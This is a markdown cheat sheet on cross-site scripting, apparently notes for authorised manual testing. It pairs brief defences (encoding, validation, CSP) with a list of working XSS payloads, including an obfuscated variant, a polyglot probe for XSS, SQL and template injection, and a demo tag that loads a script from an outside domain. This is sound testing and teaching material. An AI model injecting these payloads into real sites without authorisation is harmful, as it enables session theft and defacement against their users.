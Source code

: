 # XSS
* XSS can do anything a logged in user can do.

* You fix XSS by fixing the output or input:
	* Output - Encode data to make it safe:
	* Input - Validation, Whitelists
* Secondarily, you protect with a Content Security Policy (CSP), which is an HTTP Header

## Testing
```html

Here's a small #XSS list for manual testing (main cases, high success rate).

"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>

Try it on:
- URL query, fragment & path;
- all input fields.

------------

A payload without any parenthesis after "prompt":

​```Object.defineProperty(window, 'p', { get: prompt });p;```

By using a Getter, we invoke the prompt without any input. This should display a prompt box in which the payload can be entered. 

------------

JS:          <script>alert('Honk');</script>
SVG:         <svg onload=prompt(/svg/) />
IMG SRC:     <img src="alert('img src')" />
IMG ONERROR: <img src="error" onerror="alert('img error')" />

http://example.com/index.php?user=<script>alert(123)</script>
```



### Quick manual spray of an application input
```html
'"><svg/onload=alert()>{{9*74}}
```
This provides indicators of basic SQLi, XSS and SSTI vulnerabilities. Always remember to rest for SSTI (Server-Side Template Injection). Test for it the same way you would for XSS. A few simple payloads like ```{{7*7}}``` and if they get replaced by '49' then you've just found a high/critical vulnerability. You need to get a PoC though!


https://github.com/payloadbox/xss-payload-list



## Demo: Harlem Shake

```html
<script defer src="https://rafaelhart.com/shake.js"></script>
```

